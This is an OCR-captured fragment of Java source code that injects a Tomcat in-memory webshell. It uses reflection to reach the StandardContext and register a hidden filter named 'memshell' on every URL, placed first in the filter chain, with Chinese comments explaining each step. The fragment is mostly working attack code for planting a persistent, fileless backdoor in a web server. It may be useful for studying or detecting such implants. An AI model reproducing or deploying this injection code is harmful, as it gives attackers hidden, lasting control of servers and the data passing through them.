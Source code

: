 ```java
        }
        try {
            filterChain.doFilter(servletRequest, servletResponse);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void destroy() {

    }
    @Override
    public boolean equals(Object req) {
        Object[] context=(Object[]) req;
        org.apache.catalina.connector.Request request=(org.apache.catalina.connector.Request)context[0];
        org.apache.catalina.connector.Response response=(org.apache.catalina.connector.Response)context[1];
        try{
            String name="memshell";
            ServletContext servletContext = request.getSession().getServletContext();

            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            if (filterConfigs.get(name) == null) {
                Filter filter = new memery();
                //添加filter到filterDef
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());
                //添加filterDef到filterDefs中
                standardContext.addFilterDef(filterDef);
                //创建FilterMap
                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //将该FilterMap添加到最前面
                standardContext.addFilterMapBefore(filterMap);
                //创建ApplicationFilterConfig类, 并将它添加到filterConfigs中
                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
                filterConfigs.put(name, filterConfig);
                response.getWriter().println("Success");
                response.getWriter().flush();
                response.getWriter().close();
            }
        }catch(Exception e){
```